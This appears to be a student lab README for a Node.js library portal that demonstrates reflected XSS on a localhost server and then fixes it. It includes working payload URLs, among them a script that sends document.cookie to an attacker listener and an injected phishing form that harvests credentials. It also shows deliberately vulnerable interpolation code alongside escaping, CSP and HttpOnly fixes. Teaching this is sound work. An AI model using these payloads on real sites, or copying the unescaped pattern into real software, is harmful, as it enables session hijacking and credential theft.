

# 🛡️ BookNook Library — Reflected Cross-Site Scripting (XSS) Demonstration & Defense

> **Cybersecurity Lab 2: Web Vulnerability Research & Live Exploitation**  
> **Assigned Problem #12:** Reflected Cross-Site Scripting (XSS)  
> **Course:** Computer Science / Cybersecurity  

---

<!-- ## 📋 Project & Submission Information

| Field | Details |
|---|---|
| **Group ID** | `[11]` |
| **Team Members** | `[Member 1 IIB2024042]`, `[Member 2 IIB2024043]`, `[Member 3 IIb2024035]`, `[Member 4 IIB2024040]` |
| **Assigned Flaw** | **Problem #12 — Reflected Cross-Site Scripting (XSS)** |
`|
| **Demonstration Video** | `[Insert Shared Google Drive Video Link Here]` |
| **Target Application** | **BookNook Library Portal** (Node.js / Express) |

--- -->

## 📖 Executive Summary & Scenario Overview

**Reflected Cross-Site Scripting (Reflected XSS / Non-Persistent XSS)** occurs when a web application receives untrusted data in an HTTP request (typically via URL query parameters, form fields, or request headers) and immediately incorporates that data into the immediate HTTP response without appropriate neutralization, escaping, or sanitization.

Because the payload is **not stored** on the server's database (unlike Stored XSS), the malicious payload is carried directly inside a specially crafted link. When an attacker entices a victim into clicking the link, the victim's browser sends the request containing the script, the vulnerable server reflects it back in the HTML markup, and the browser executes the script in the context of the victim's authenticated session.



---

## 🏗️ Repository Architecture

This repository contains two complete, runnable implementations of the **BookNook Library Search Portal**:

```
CS_Lab2/
├── package.json              # NPM dependencies & lifecycle scripts
├── server.js                 # 🔴 VULNERABLE Server (Port 3000) — Reflected XSS Active
├── server_fixed.js           # 🟢 HARDENED Server (Port 3001) — Escaped, CSP & HttpOnly
├── public/
│   ├── style.css             # Modern design system, badges & exploit lab UI
│   └── app.js               # Client utilities (clipboard copy & interactive helpers)
├── ATTACK_CHEATSHEET.md      # Ready-to-use attack URLs for live demonstration
├── VIDEO_SCRIPT.md           # Minute-by-minute voiceover presentation script (<10 mins)
└── README.md                 # Complete documentation & write-up
```

### Server Comparison Matrix

| Feature / Defense | Vulnerable Server (`server.js`) | Hardened Server (`server_fixed.js`) |
|---|---|---|
| **Port** | `http://127.0.0.1:3000` | `http://127.0.0.1:3001` |
| **Query Output Escaping** | ❌ **None** (Raw string interpolation) | ✅ **Context-Aware HTML Entity Escaping** |
| **Content Security Policy** | ❌ None | ✅ `default-src 'self'; script-src 'self'` |
| **Session Cookie Protection** | ❌ `httpOnly: false` (Accessible to JS) | ✅ `httpOnly: true; SameSite=Strict` |
| **Security Headers** | ❌ Default Express | ✅ `X-Content-Type-Options: nosniff`, `X-Frame-Options: DENY` |
| **Attacker Listener** | ✅ Built-in at `/attacker/listener` | N/A |

---

## 🚀 Quick Start & How to Run

### Prerequisites
- **Node.js** (v16.0.0 or higher recommended)
- **NPM** (bundled with Node.js)

### Step 1: Install Dependencies
```bash
npm install
```

### Step 2: Run the Vulnerable Application (Port 3000)
```bash
npm start
# or: npm run start:vulnerable
```
Open your browser and navigate to:
- **Library Application:** [http://127.0.0.1:3000/](http://127.0.0.1:3000/)
- **Attacker Exfiltration Listener:** [http://127.0.0.1:3000/attacker/listener](http://127.0.0.1:3000/attacker/listener)

### Step 3: Run the Hardened Application (Port 3001)
In a separate terminal:
```bash
npm run start:fixed
```
Navigate to:
- **Hardened Library Application:** [http://127.0.0.1:3001/](http://127.0.0.1:3001/)

---

## 💥 Live Attack Demonstration & Exploits

### 1. Basic Proof-of-Concept (Script Alert)
- **Concept:** Demonstrates arbitrary JavaScript execution within the victim's browser context.
- **Crafted URL:**
  ```text
  http://127.0.0.1:3000/search?q=%3Cscript%3Ealert('Reflected%20XSS%20Executed!%20Origin:%20'%20%2B%20document.domain)%3C%2Fscript%3E
  ```
- **Observed Effect:** A browser dialog box immediately appears displaying: `Reflected XSS Executed! Origin: 127.0.0.1`.

---

### 2. Inline Event Handler Injection (``)
- **Concept:** Demonstrates that filters relying on naive `<script>` blacklist checks can be trivially bypassed using alternative HTML elements and event handlers.
- **Crafted URL:**
  ```text
  http://127.0.0.1:3000/search?q=%3Cimg%20src=invalid-image%20onerror=%22alert('XSS%20via%20onerror%20event!')%22%3E
  ```
- **Observed Effect:** The browser renders the broken image tag, immediately triggers the `onerror` callback, and executes the alert.

---

### 3. Session Cookie Theft & Remote Exfiltration (High Impact)
- **Concept:** Simulates an attacker stealing the user's active session token (`auth_session=eyJhbGci...`) and transmitting it silently to a remote logging receiver.
- **Crafted URL:**
  ```text
  http://127.0.0.1:3000/search?q=%3Cscript%3Efetch('/attacker/collect?stolen_cookie='%20%2B%20encodeURIComponent(document.cookie));alert('Session%20Cookie%20Stolen%20and%20Sent%20to%20Attacker!');%3C%2Fscript%3E
  ```
- **Demonstration:**
  1. The victim opens the link and sees a confirmation popup.
  2. In another tab, open `http://127.0.0.1:3000/attacker/listener`.
  3. The victim's full cookie payload and User-Agent are now permanently logged on the attacker's dashboard!

---

### 4. DOM Defacement & Phishing Credential Harvester (Critical Impact)
- **Concept:** Injects a rogue login overlay asking the user to "re-authenticate due to session expiry," capturing submitted plain-text credentials.
- **Crafted URL:**
  ```text
  http://127.0.0.1:3000/search?q=%3Cdiv%20class=%27fake-phishing-modal%27%3E%3Cdiv%20class=%27phishing-card%27%3E%3Ch3%3E%E2%9A%A0%EF%B8%8F%20Session%20Expired%3C%2Fh3%3E%3Cp%3EPlease%20re-enter%20your%20credentials%20to%20continue%20accessing%20BookNook.%3C%2Fp%3E%3Cform%20onsubmit=%27submitFakePhish(event)%27%3E%3Cinput%20type=%27email%27%20id=%27phish-email%27%20placeholder=%27Email%20%2F%20Student%20ID%27%20value=%27alice%40university.edu%27%20required%3E%3Cinput%20type=%27password%27%20id=%27phish-pass%27%20placeholder=%27Password%27%20required%3E%3Cbutton%20type=%27submit%27%3ELogin%20Now%3C%2Fbutton%3E%3C%2Fform%3E%3C%2Fdiv%3E%3C%2Fdiv%3E
  ```
- **Demonstration:**
  1. The page renders an official-looking credential prompt.
  2. Entering a password submits the sensitive credentials to the attacker's listener at `/attacker/collect`.

---

## 🔍 Root Cause Code Analysis

### The Flaw in `server.js` (Vulnerable)

In `server.js`, the search route reads `req.query.q` and embeds it directly into template literals without encoding:

```javascript
// server.js (VULNERABLE)
app.get("/search", (req, res) => {
  const rawQuery = req.query.q || "";
  
  // ❌ VULNERABLE LINE 1: Direct string interpolation into HTML body
  const statusHtml = `<h3 class="status-message">Showing search results for: <em>${rawQuery}</em></h3>`;

  // ❌ VULNERABLE LINE 2: Direct string interpolation into input attribute
  res.send(renderFullPage({
    queryValue: rawQuery,
    resultsHtml: { status: statusHtml, cards: renderBookCards(filtered) }
  }));
});
```

#### Why This Fails:
The web browser's HTML parser cannot distinguish between server-authored markup and user-supplied data strings. When `rawQuery` contains characters like `<`, `>`, `"`, or `'`, the parser treats them as structural HTML boundaries, breaking out of text content into executable script contexts.

---

### The Remediation in `server_fixed.js` (Secured)

`server_fixed.js` resolves this vulnerability by ensuring that **untrusted user input is always treated purely as data, never executable code**.

```javascript
// server_fixed.js (HARDENED & SECURED)

// 1. Context-Aware Output Encoding Helper
function escapeHtml(str) {
  if (typeof str !== "string") return "";
  return str
    .replace(/&/g, "&amp;")
    .replace(/</g, "&lt;")
    .replace(/>/g, "&gt;")
    .replace(/"/g, "&quot;")
    .replace(/'/g, "&#39;")
    .replace(/\//g, "&#x2F;");
}

app.get("/search", (req, res) => {
  const rawQuery = req.query.q || "";

  // ✅ FIX: Escape input prior to rendering into HTML context
  const safeQuery = escapeHtml(rawQuery);

  const statusHtml = `<h3 class="status-message">Showing search results for: <em>${safeQuery}</em></h3>`;

  res.send(renderFullPage({
    queryValue: safeQuery,
    resultsHtml: { status: statusHtml, cards: renderBookCards(filtered) }
  }));
});
```

#### Neutralized Behavior:
When the attacker provides `<script>alert(1)</script>`, the server responds with:
```html
<em>&lt;script&gt;alert(1)&lt;/script&gt;</em>
```
The browser's layout engine renders the text literally on screen and executes nothing.

---

## 🛡️ Defense-in-Depth Remediation Best Practices

1. **Context-Aware Output Encoding (Primary Defense):**
   - Encode data based on where it is inserted: HTML Body (`&lt;`), HTML Attributes (`&quot;`), JavaScript variables (`\x27`), or URLs (`encodeURIComponent`).
   - Use automated templating systems with default auto-escaping enabled (e.g. React JSX `{data}`, Vue `{{ data }}`, EJS `<%= data %>`, Jinja2 `{{ data }}`).

2. **Content Security Policy (CSP) (Secondary Defense):**
   - Configure HTTP response headers to restrict the sources from which scripts can be executed:
     ```http
     Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';
     ```
   - CSP prevents inline scripts (`<script>...`) and inline event handlers (`onerror="..."`) from running even if an escaping flaw exists.

3. **Cookie Hardening (`HttpOnly` Flag):**
   - Mark sensitive session cookies with `HttpOnly; SameSite=Strict; Secure`:
     ```javascript
     res.cookie("auth_session", token, { httpOnly: true, sameSite: "Strict", secure: true });
     ```
   - This completely blocks client-side JavaScript (`document.cookie`) from accessing the session token, neutralizing session hijacking via XSS.

4. **Use Safe DOM APIs on Client-Side:**
   - Avoid `element.innerHTML = userInput`.
   - Prefer `element.textContent = userInput` or `element.setAttribute(...)`.

---

## 🎥 Video Demonstration Reference

- **Shared Video Link:** `[Paste Google Drive URL Here]`
- **Presentation Script:** See [VIDEO_SCRIPT.md](file:///c:/Users/swija/OneDrive/c%20folder/Desktop/CS/CS_Lab2/VIDEO_SCRIPT.md) for the complete 10-minute voiceover guide.

---

## ⚠️ Academic Disclaimer

*This software is developed strictly for educational and classroom demonstration purposes as part of an academic Cybersecurity coursework. It contains deliberately insecure code patterns. Do not deploy the vulnerable version (`server.js`) to any public or production environment.*
